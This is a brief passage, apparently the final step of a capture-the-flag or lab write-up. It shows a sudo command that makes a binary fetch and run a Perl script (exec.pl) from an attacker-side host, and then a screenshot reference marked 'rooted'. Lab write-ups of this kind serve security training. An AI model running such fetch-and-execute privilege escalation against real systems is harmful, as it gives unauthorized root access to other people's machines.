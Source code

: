 ```bash
sudo /usr/bin/binary http://10.10.14.54:8000/exec.pl lDnxUysaQn
```

![](screenshots/rooted.png)

